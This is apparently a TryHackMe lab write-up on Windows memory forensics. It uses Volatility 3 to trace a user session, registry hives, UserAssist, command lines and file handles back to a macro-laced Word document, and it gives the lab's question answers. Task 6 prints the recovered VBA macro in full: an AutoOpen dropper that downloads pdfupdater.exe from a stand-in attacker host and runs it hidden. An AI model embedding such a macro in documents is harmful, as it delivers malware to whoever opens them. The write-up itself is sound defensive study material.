




# Windows Memory & User Activity


| | |
|---|---|
| **Room** | [Windows Memory & User Activity](https://tryhackme.com/room/windowsmemoryanduseractivity) |
| **Difficulty** | Medium |
| **Path** | Advanced Endpoint Investigations |
| **Module** | Memory Analysis |


## Overview


This is the second room in the three-part TryHatMe memory series (Processes → **User Activity** → Network), continuing the same `THM-WIN-001_071528_07052025.mem` dump from Incident THM-0001. Where the first room established *which processes* looked suspicious, this room answers the question a SOC analyst has to answer next: was a human actually driving this, or is it automated/background activity? That distinction — sessions, registry hives, UserAssist, command lines, file handles, and recovered VBA macro code — is what separates "a suspicious process exists" from "we can prove user-driven execution and reconstruct exactly how the attacker got in."


## Task 1 — Introduction


No questions. Sets objectives: link logins to suspicious activity via session/registry data, identify commands and file access tied to that activity, and reconstruct user actions purely from memory.


## Task 2 — Scenario Information


🔴 Same incident as the previous room — **Incident THM-0001**, TryHatMe, escalated May 5, 2025 at 07:30 CET.


- **Hostname:** WIN-001
- **OS:** Windows 10 22H2, 10.0.19045
- **Memory dump:** `THM-WIN-001_071528_07052025.dmp`, captured 07:45 CET by analyst Steve Stevenson
- **MD5:** `78535fc49ab54fed57919255709ae650`


## Task 3 — Environment and Setup


No questions. Continues analyzing `THM-WIN-001_071528_07052025.mem` on the same Ubuntu Desktop lab VM, located in the `ubuntu` home directory.


## Task 4 — Tracking Sessions


Understanding which accounts were active — and whether their presence was physical, remote, or an unattended open session — is one of the first steps in any investigation. It helps attribute actions to specific users and flags anything occurring at odd hours or from an unexpected origin.


### Sessions


`windows.sessions` inspects memory for internal Windows structures like `_SESSION_MANAGER_INFORMATION` and the `SESSION` structure, extracting session IDs, user SIDs, logon types (console, RDP, etc.), and logon timestamps — data stored in `csrss.exe`, `winlogon.exe`, and other interactive-session processes.


```bash
ubuntu@tryhackme$ vol -f THM-WIN-001_071528_07052025.mem windows.sessions > sessions.txt
ubuntu@tryhackme$ cat sessions.txt
```


```
Session ID  Session Type  Process ID  Process Name        User Name       Create Time
----------  ------------- -----------  ------------------- --------------- -------------------------------
1           Console       5952        cmd.exe             [redacted]      2025-05-07 07:12:43.000000 UTC
1           Console       3144        conhost.exe          [redacted]      2025-05-07 07:12:43.000000 UTC
1           Console       5252        WINWORD.EXE          [redacted]      2025-05-07 07:13:04.000000 UTC
1           Console       3392        pdfupdater.exe       [redacted]      2025-05-07 07:13:05.000000 UTC
1           Console       10084       windows-update       [redacted]      2025-05-07 07:13:05.000000 UTC
1           Console       10032       updater.exe          [redacted]      2025-05-07 07:13:56.000000 UTC
1           Console       432         cmd.exe              [redacted]      2025-05-07 07:14:36.000000 UTC
1           Console       6984        powershell.exe       [redacted]      2025-05-07 07:14:39.000000 UTC
1           -             7788        FTK Imager.exe       [redacted]      2025-05-07 07:15:28.000000 UTC
```


🔴 Session ID 1 (user `operator`) stands out — a tight chain of processes launched within seconds of each other points to active engagement, not background tasks:


- **Suspicious session:** all tied to `operator`, Session ID 1
- **Malicious chain:** `WINWORD.EXE → pdfupdater.exe → windows-update.exe → updater.exe`, all under the same interactive session
- **Post-exploitation:** `cmd.exe` (432) and `powershell.exe` (6984) appear after `updater.exe`, suggesting the attacker gained control and began issuing commands
- **Conclusion:** evidence points to a hijacked user session leveraged post-initial-access


### Loaded registry hives


A loaded registry hive (`NTUSER.DAT`, `SYSTEM`, etc.) means a user was active and interacting with the system. `windows.registry.hivelist` scans for `CMHIVE` kernel structures, walking the kernel's `HiveList` to reveal each hive's memory address and original disk path.


```bash
ubuntu@tryhackme$ vol -f THM-WIN-001_071528_07052025.mem windows.registry.hivelist > hivelist.txt
ubuntu@tryhackme$ cat hivelist.txt
```


```
Offset          FileFullPath                                          File output
0xbe8c6878d000  \??\C:\Users\operator\ntuser.dat                    Disabled
0xbe8c68796000  \??\C:\Users\operator\AppData\Local\Microsoft\Windows\UsrClass.dat Disabled
0xbe8c69c6c000  \??\C:\Windows\AppCompat\Programs\Amcache.hve        Disabled
```


The `operator` hive — both `ntuser.dat` and `UsrClass.dat` — was fully loaded, confirming the account was logged in and interacting with the system (though not, on its own, proof of what specifically was clicked). Several `AppData\Local\Packages` entries also show modern UWP app activity (`StartMenuExperienceHost`, `Search`, `ShellExperienceHost`, `LockApp`) tied to `operator`, reinforcing the active-desktop-session picture.


### Graphical interface activity (UserAssist)


[UserAssist](https://www.magnetforensics.com/blog/artifact-profile-userassist/) is an undocumented registry key tracking GUI-launched executables (Start Menu, Desktop, Explorer). 🔴 Real-world threat actors like **Raspberry Robin** are known to leave traces here — seeing `powershell.exe` or `regsvr32.exe` shortly before a compromise signals direct user-driven activity, useful for establishing intent even when disk/event-log evidence is gone.


`windows.registry.userassist` reads from `NTUSER.DAT`'s `Software\Microsoft\Windows\CurrentVersion\Explorer\UserAssist` key. Entries are ROT13-encoded and include app path, run counter, and last-launch timestamp.


```bash
ubuntu@tryhackme$ vol -f THM-WIN-001_071528_07052025.mem windows.registry.userassist > userassist.txt
ubuntu@tryhackme$ cat userassist.txt
```


Notable entries from `operator`'s hive:


| Path | Count | Last Updated |
|---|---|---|
| `%APPDATA%\...\System Tools\Command Prompt.lnk` | 33 | 2025-05-07 07:12:43 |
| `%APPDATA%\...\TaskBar\File Explorer.lnk` | 28 | 2025-05-07 07:11:17 |
| `C:\Users\Public\Desktop\AccessData FTK Imager.lnk` | 6 | 2025-05-07 07:15:27 |
| `C:\Users\Public\Desktop\Google Chrome.lnk` | 9 | 2025-05-07 06:58:07 |
| `%ALLUSERSPROFILE%\...\Accessories\Notepad.lnk` | 6 | 2025-05-07 06:55:48 |


The `Command Prompt.lnk` timestamp (07:12:43) lines up exactly with `cmd.exe`'s launch in the session data — confirming direct, intentional desktop-driven execution around the time the suspicious chain kicked off.


### Q&A


**Which plugin should be used to identify user login sessions from memory?**
```
windows.sessions
```


**Which user was logged into a console session when WINWORD.EXE and updater.exe were executed?**
```
DESKTOP-3NMNM0H/operator
```


**According to the UserAssist data, which executable related to command-line activity was launched via a shortcut?**
```
cmd.exe
```


**Which Volatility 3 plugin reveals evidence of programs launched by a user through the graphical interface?**
```
windows.registry.userassist
```


## Task 5 — Command Execution & File Access


Having established when/how the activity began, this task looks at what happened next: command execution and file access tied to the attack chain (`WINWORD.EXE → ... → updater.exe`).


### Execution (`windows.cmdline`)


`windows.cmdline` walks each process's PEB, reading the `ProcessParameters.CommandLine` Unicode string:


```c
typedef struct _RTL_USER_PROCESS_PARAMETERS {
  BYTE             Reserved1[16];
  PVOID            Reserved2[10];
  UNICODE_STRING ImagePathName;
  UNICODE_STRING CommandLine; // This is the string it reads
} RTL_USER_PROCESS_PARAMETERS, *PRTL_USER_PROCESS_PARAMETERS;
```


```bash
ubuntu@tryhackme$ vol -f THM-WIN-001_071528_07052025.mem windows.cmdline > cmdline.txt
ubuntu@tryhackme$ cat cmdline.txt
```


```
PID     Process         Args
5252    WINWORD.EXE     "C:\Program Files (x86)\Microsoft Office\Root\Office16\WINWORD.EXE" /n "C:\Users\operator\Documents\[REDACTED].docm" /o ""
3392    pdfupdater.exe  C:\Users\operator\pdfupdater.exe
10084   windows-update   "C:\Users\operator\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\windows-update.exe"
7788    FTK Imager.exe   "C:\Program Files\AccessData\FTK Imager\FTK Imager.exe"
```


None of the malicious processes were launched with additional command-line arguments — but `WINWORD.EXE` (PID 5252) was launched directly against a `.docm` file with the `/n` switch (new instance, avoiding window reuse). Whether the file was clicked or opened another way isn't determinable from this alone.


### File access (`windows.handles`)


`windows.handles` parses the `ObjectTable` field in each process's `EPROCESS` structure, walking the handle table to reveal open kernel objects (files, registry keys, events).


```bash
ubuntu@tryhackme$ vol -f THM-WIN-001_071528_07052025.mem windows.handles > handles.txt
ubuntu@tryhackme$ cat handles.txt | grep WINWORD
```


```
5252    WINWORD.EXE    0x990b2ae0ab60    0xd30    File    0x12019f    \Device\HarddiskVolume3\Users\operator\Documents\[REDACTED].docm
```


💡 The `.docm` shows up as an **open file handle**, not just a command-line argument — confirming `WINWORD.EXE` actively opened it, strengthening the link between this document and everything that followed.


### Q&A


**What file was passed to WINWORD.EXE?**
```
cv-resume-test.docm
```


**What is the name of the Volatility3 plugin that extracts open files, registry keys, and kernel objects from process handle tables?**
```
windows.handles
```

**What is the full device path where the .docm file was found open in WINWORD.EXE's memory space?**
```
C:\Users\operator\Documents\cv-resume-test.docm
```


**What Windows command-line switch was used to open WINWORD.EXE in a new instance?**
```
/n
```


## Task 6 — Tracing User Execution


🔴 Macro-enabled documents often reference a `.dotm` template that loads automatically and can carry embedded macros — this task confirms that template's role in triggering the attack.


### Locating the template file


`windows.dumpfiles` scans memory for `FILE_OBJECT` structures and follows their `SectionObjectPointer` to reconstruct file data:


```c
typedef struct _SECTION_OBJECT_POINTERS {
  PVOID DataSectionObject;
  PVOID SharedCacheMap;
  PVOID ImageSectionObject;
} SECTION_OBJECT_POINTERS;
```


```bash
ubuntu@tryhackme$ vol -f THM-WIN-001_071528_07052025.mem -o 5252/ windows.dumpfiles --pid 5252
ubuntu@tryhackme$ ls 5252/ | grep dotm
file.0x990b2ae077d0.0x990b2a3f5d70.SharedCacheMap.Normal.dotm.vacb
file.0x990b2ae077d0.0x990b2b916cd0.DataSectionObject.Normal.dotm.dat
```


```bash
ubuntu@tryhackme$ cp 5252/file.0x990b2ae077d0.0x990b2b916cd0.DataSectionObject.Normal.dotm.dat .
ubuntu@tryhackme$ file file.0x990b2ae077d0.0x990b2b916cd0.DataSectionObject.Normal.dotm.dat
ubuntu@tryhackme:~$ file file.0x990b2ae077d0.0x990b2b916cd0.DataSectionObject.Normal.dotm.dat: Microsoft Word 2007+
```


### Confirming macro execution


Unzip the `.dat` file and inspect `word/vbaProject.bin` with `olevba` (part of the [oletools](https://github.com/decalage2/oletools) suite):


```bash
ubuntu@tryhackme$ olevba word/vbaProject.bin
```


```vb
Sub AutoOpen()
    DownloadAndExecute
End Sub


Sub Document_Open()
    DownloadAndExecute
End Sub


Sub DownloadAndExecute()
    Dim url As String
    Dim filePath As String
    Dim xmlhttp As Object
    Dim adoStream As Object


    url = "http:/[REDACTED]/pdfupdater.exe"
    filePath = "C:\Users\operator\pdfupdater.exe"


    If Dir(filePath) <> "" Then Kill filePath


    Set xmlhttp = CreateObject("MSXML2.XMLHTTP")
    xmlhttp.Open "GET", url, False
    xmlhttp.Send


    If xmlhttp.Status = 200 Then
        Set adoStream = CreateObject("ADODB.Stream")
        adoStream.Type = 1 ' Binary
        adoStream.Open
        adoStream.Write xmlhttp.responseBody
        adoStream.SaveToFile filePath, 2 ' Overwrite existing
        adoStream.Close


        Shell filePath, vbHide ' Run the file silently
    Else
        MsgBox "Download failed. HTTP status: " & xmlhttp.Status
    End If
End Sub
```


🔴 `AutoOpen`/`Document_Open` means this macro fires the moment the document is opened — no further user interaction needed. It downloads `pdfupdater.exe` over HTTP and runs it silently (`vbHide`), overwriting any existing copy first — this is the exact mechanism that kicked off the `pdfupdater.exe → windows-update.exe → updater.exe` chain from the previous room.


### Q&A


**What command did we use to confirm that the dumped .dat file is a Microsoft Word document?**
```
file
```


**According to the olevba output, what is the name of the file downloaded and executed by the macro?**
```
pdfupdater.exe
```


**What is the full URL hardcoded in the macro for downloading the executable?**
```
http://attacker.thm/pdfupdater.exe
```


## Task 7 — Conclusion


Working entirely from RAM — no disk logs — the room built out this timeline for Incident THM-0001:


| Step | Finding | Plugins used |
|---|---|---|
| 1 | `operator` was logged in and active at capture time | `windows.sessions`, `windows.registry.hivelist` |
| 2 | Malicious document `cv-resume-test.docm` opened via Microsoft Word | `windows.cmdline`, `windows.handles` |
| 3 | Document triggered a linked `.dotm` template containing embedded macros | `windows.dumpfiles` + `grep` |
| 4 | Macro executed silently, downloading and running `pdfupdater.exe` from a remote server | Extracted `.dotm`, unzipped, `olevba` on `vbaProject.bin` |
| 5 | Downloaded file spawned `windows-update.exe`, which launched `updater.exe` | `pslist`, `cmdline`, process ancestry |
| 6 | Post-exploitation activity: `cmd.exe` and `powershell.exe` launched in the same session | `windows.sessions`, `pslist` |
| 7 | UserAssist confirmed interactive Command Prompt launch, corroborating GUI-driven execution | `windows.registry.userassist` |


📌 The next room in this series covers network connection tracking and completes the attack-chain timeline.


## Key Takeaways


- Session data (`windows.sessions`) plus loaded registry hives (`windows.registry.hivelist`) together establish *who* was active and *when* — neither alone proves interaction, but together they corroborate it
- UserAssist is a GUI-execution artifact independent of disk/event logs — its ROT13-encoded, undocumented registry entries can survive even when other execution evidence is gone, and real malware families (Raspberry Robin) are known to leave traces there
- A command line with no suspicious arguments doesn't mean nothing happened — `windows.handles` catching an open file handle to a `.docm` the process wasn't obviously passed as an argument is what actually proved active file interaction
- `.dotm` templates riding alongside `.docm` documents are a common macro-malware vector — always check for the template, not just the document itself
- `AutoOpen`/`Document_Open` VBA subs mean zero-click-after-open execution — recovering the macro source via `olevba` turned a process-name suspicion into a fully explained delivery mechanism, complete with the payload URL
- This entire reconstruction — from initial document open to post-exploitation `cmd.exe`/`powershell.exe` — was built exclusively from a memory image, underscoring why memory acquisition timing (covered in earlier rooms) matters so much


---
*Write-up by OPT4RUN*